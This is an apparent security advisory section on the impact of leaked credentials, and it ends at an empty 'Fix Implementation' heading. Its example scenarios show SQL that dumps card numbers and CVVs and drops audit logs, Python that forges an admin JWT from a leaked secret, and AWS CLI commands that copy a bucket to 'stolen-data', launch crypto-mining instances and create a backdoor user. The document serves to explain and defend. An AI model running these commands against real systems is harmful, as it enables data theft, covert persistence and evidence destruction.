 ## Impact Analysis

### Immediate Consequences
- **Database Compromise**: Direct access to application databases
- **External Service Access**: Unauthorized use of third-party APIs
- **Cloud Account Takeover**: Full access to cloud infrastructure
- **Payment System Abuse**: Unauthorized transactions via payment APIs

### Long-term Impact
- **Data Breaches**: Complete customer data exposure
- **Financial Loss**: Unauthorized charges and resource usage
- **Compliance Violations**: Regulatory penalties for exposed PII
- **Reputation Damage**: Loss of customer trust

### Real-World Attack Scenarios

#### Scenario 1: Database Credential Exposure
```sql
-- Attacker gains direct database access
SELECT * FROM users WHERE role = 'admin';
SELECT credit_card_number, cvv FROM payments;
DROP TABLE audit_logs;  -- Cover tracks
```

#### Scenario 2: JWT Secret Compromise
```python
# Attacker creates admin tokens
import jwt

secret = "MyVerySecretJWTKey2024!"
payload = {
    "user": "admin",
    "role": "administrator", 
    "exp": time.time() + 86400
}

token = jwt.encode(payload, secret, algorithm="HS256")
# Use token to access admin endpoints
```

#### Scenario 3: Cloud Infrastructure Takeover
```bash
# Complete AWS account compromise
aws iam list-users
aws s3 sync s3://sensitive-data-bucket ./stolen-data/
aws ec2 run-instances --image-id ami-12345 --instance-type t3.large  # Mine cryptocurrency
aws iam create-user --user-name backdoor-user
```

## Fix Implementation
